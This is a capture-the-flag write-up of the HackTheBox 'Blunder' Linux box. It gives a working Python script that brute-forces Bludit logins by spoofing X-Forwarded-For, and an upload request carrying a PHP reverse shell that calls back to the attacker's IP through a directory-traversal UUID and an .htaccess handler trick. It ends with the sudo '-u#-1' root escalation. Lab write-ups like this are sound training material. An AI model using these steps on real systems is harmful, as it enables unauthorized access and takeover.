# HackTheBox – Blunder

- Write-Up Author: Calvin Lai \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

## **Question:**
> Blunder
```
	OS: Linux
	Difficulty: Easy
	Points:	20
	Release: 03,May,2020
```



## Background

Blunder is a Linux machine from HackTheBox, which is a real-life similar box that required CVE exploit technique, for training your ethical hacking and penetration testing skills.

After basic enumeration, this Linux server is a web application develops using the blunder CMS running on port 80. Using the tool Drib, some hidden files are found which contain a possible user name "fergus", and a Bruteforce protected admin login page also identifies. 

After google, I find that the Bruteforce protection of this version blunder CMS  can be bypassed. Get the administrative privilege account.  I am trying to upload PHP reverse shell to the site via the provided image uploaded function, uploaded success but fail to get the access path.  Google again, there is a CVE exploit on the Bludit that related to the directory traversal. Follow the instruction, get the low privilege access. 

The system is enumerated, there is a newer version of Bludit CMS is found and a file-based user account database is identified. There is an SHA-1 hashed password of a user account hugo. Crack the password using an online tool and get this user account access.

Enumerate the system again with a tool - linpeas, the sudo version have PE vulnerability. Following the exploitDB instruction, get the root access finally. 

130n@calvinlai.com

Target Machine: 10.10.10.191

Attacker Machine: 10.10.14.16

## Write up
### 1. Service Scanning:

- Quick Pre-searching:

	

- Details Analysis:

	

	Only port 80 open, focus on the web application and check any CVE vulnerability. 

### 2. Enumeration:


- Enumerating the website:

	Using the following tools, a folder and two files are found, /admin/, /robots.txt, and /todo.txt
	```
	gobuster dir -u http://10.10.10.191 -w /usr/share/wordlists/dirb/common.txt -x txt,pdf,php
	dirb http://10.10.10.191/ /usr/share/wordlists/dirb/common.txt -o dirb-191.result 
	gobuster dir -u 'http://10.10.10.191/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster-191.result 
	python3 /root/Documents/ctf/tools/dirsearch/dirsearch.py -u http://10.10.10.191/ -e jsp,txt -x 301,302,403,404 --simple-report=dirsearch-191.result
	```

	/robots.txt

	

	/todo.txt

	

	/admin/

	

	The source code of the login portal shows that it builds by the Bludit CMS and version is 3.9.2 and /todo.txt hints of a user **fergus**.

	

- Get the website login

	Brute forcing is not a simple task as the site is implemented the CSRF token, and after 10 login attempts my IP address being blocked. Next steps, I am going to search for any vulnerable of this bludit version and this [blog](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) is found.

	I am failure by using the rockyou.txt as the password list to gain the website login access, but, it is success using [cewl](https://tools.kali.org/password-attacks/cewl) to gathering the wordlist from the site.

	```
	#!/usr/bin/env python3
	import re
	import requests
	host = 'http://10.10.10.191'
	login_url = host + '/admin/login'
	username = 'fergus'
	wordlist = []
	pwd = open('password.txt','r')
	for line in pwd:
		line=line.rstrip()
		wordlist.append(line)
	# Add the correct password to the end of the list
	wordlist.append('adminadmin')
	for password in wordlist:
		session = requests.Session()
		login_page = session.get(login_url)
		csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)
		print('[*] Trying: {p}'.format(p = password))
		headers = {
			'X-Forwarded-For': password,
			'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
			'Referer': login_url
		}
		data = {
			'tokenCSRF': csrf_token,
			'username': username,
			'password': password,
			'save': ''
	  		}
		login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)
		if 'location' in login_result.headers:
			if '/admin/dashboard' in login_result.headers['location']:
				print()
				print('SUCCESS: Password found!')
				print('Use {u}:{p} to login.'.format(u = username, p = password))
				print()
				break
	```

	```
	root@kclai:~/Documents/ctf/htb/linux/17-HTB-Blunder/exploit# cewl 10.10.10.191 > password.txt
	root@kclai:~/Documents/ctf/htb/linux/17-HTB-Blunder/exploit# python3 exploit.py 
	[*] Trying: CeWL 5.4.6 (Exclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
	[*] Trying: the
	[*] Trying: Load
	[*] Trying: Plugins
	[*] Trying: and
	.......
	.....
	....
	...
	[*] Trying: Letters
	[*] Trying: probably
	[*] Trying: best
	[*] Trying: fictional
	[*] Trying: character
	[*] Trying: RolandDeschain
	SUCCESS: Password found!
	Use fergus:RolandDeschain to login.
	```

***
### 3. Initial low privilege access:
- Enumerated the system after got the login access, there is an image upload function. A PHP reverse shell file and ".htaccess" can be bypassed the client-side validation and uploaded to the server successfully. But the file access path cannot be found.  



- After searching on the exploit database, there is a CVE vulnerability on Bludit 3.9.2 that related to the directory traversal. The PoC scripts show that the UUID can be used to control the result access path.



- Get the www account access
	
	As the upload validation only applies on the client-side, thus, using the burp to change the upload parameters (value of filename), the PHP reverse shell and the **.htaccess** files are uploaded to the **/tmp/** folder. I can execute the reverse shell PHP by visiting the http://10.10.10.191/bl-content/tmp/reverse.php

	```
	POST /admin/ajax/upload-images HTTP/1.1
	Host: 10.10.10.191
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Referer: http://10.10.10.191/admin/new-content
	X-Requested-With: XMLHttpRequest
	Content-Type: multipart/form-data; boundary=---------------------------1577569979961725874602175024
	Content-Length: 11616
	Connection: close
	Cookie: BLUDIT-KEY=ngp0psekevm7je3hnrlhjmkj57
	-----------------------------1577569979961725874602175024
	Content-Disposition: form-data; name="images[]"; filename="reverse.png"
	Content-Type: image/png
	.....
	.....
	<?php
	// php-reverse-shell - A Reverse Shell implementation in PHP
	// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
	.....
	.....
	// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
	set_time_limit (0);
	$VERSION = "1.0";
	$ip = '10.10.14.16';  // CHANGE THIS
	$port = 1234;       // CHANGE THIS
	$chunk_size = 1400;
	$write_a = null;
	$error_a = null;
	$shell = 'uname -a; w; id; /bin/bash -i';
	....
	...
	..
	-----------------------------1577569979961725874602175024
	Content-Disposition: form-data; name="uuid"
	../../tmp
	-----------------------------1577569979961725874602175024
	Content-Disposition: form-data; name="tokenCSRF"
	60f8752883482353d1ad20bbff841b4aa9668c71
	-----------------------------1577569979961725874602175024--
	```

	```
	#.htaccess file
	RewriteEngine off
	AddType application/x-httpd-php .png
	```
- Finally, the initial web server account privilege access is obtained.



- Get the user account access

	The system file shows that this bludit CMS setup to use the file-based database, three hashed password are found at users.php of two bludit folders. According to the official website for [recovery the admin password file](https://raw.githubusercontent.com/bludit/password-recovery-tool/master/recovery.php), this hashed password is in SHA-1 format. Using the [online tool](https://md5decrypt.net/en/Sha1/) to decrypt the hashed password. The password for hugo account obtains which is **Password120**.

	[img](./img/12.png)

	I find that Hugo reuse his password reuse on their system account. Let's spawn a PTY shell, as this will allow us to use the su command. The low privilege user account obtain.

	```
	www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ python -c "import pty;pty.spawn('/bin/bash');"
	www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ su hugo
	su hugo
	Password: Password120
	```

	[img](./img/13.png)

***
### 4. Privilege Escalation:

- Download the [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to study the environment search for possible paths to escalate privileges on Linux hosts. The result shows the sudo version of this system is one of the possible paths to escalate privilege.

	

	

	Searching the exploit db again, there is a [CVS exploit](https://www.exploit-db.com/exploits/47502) on this sudo version is identified. Following the instruction, the root privilege obtain.

	

	```
	hugo@blunder:~$ 
	hugo@blunder:~$ sudo -l
	sudo -l
	Password: Password120
	Matching Defaults entries for hugo on blunder:
	    env_reset, mail_badpass,
	    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	User hugo may run the following commands on blunder:
	    (ALL, !root) /bin/bash
	hugo@blunder:~$ sudo --version
	sudo --version
	Sudo version 1.8.25p1
	Sudoers policy plugin version 1.8.25p1
	Sudoers file grammar version 46
	Sudoers I/O plugin version 1.8.25p1
	hugo@blunder:~$ 
	hugo@blunder:/$ sudo -u#-1 /bin/bash
	sudo -u#-1 /bin/bash
	Password: Password120
	root@blunder:/
	```

	

***
### 4. Recommendation:

Missing patches are very common in the real-life system, we need to keep the system patches are updated to avoid know attack. 

***
### 5. Reference Link

https://rastating.github.io/bludit-brute-force-mitigation-bypass/
https://raw.githubusercontent.com/bludit/password-recovery-tool/master/recovery.php
https://md5decrypt.net/en/Sha1/
https://www.exploit-db.com/exploits/47502
